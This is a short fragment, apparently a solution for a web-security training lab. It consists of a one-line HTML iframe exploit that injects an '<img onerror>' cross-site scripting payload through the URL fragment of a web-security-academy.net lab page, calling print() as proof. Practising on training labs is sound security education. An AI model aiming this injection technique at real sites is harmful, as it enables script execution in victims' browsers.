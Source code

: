 `<iframe src="https://0a680095034ccebf8072171100ca00d4.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
`
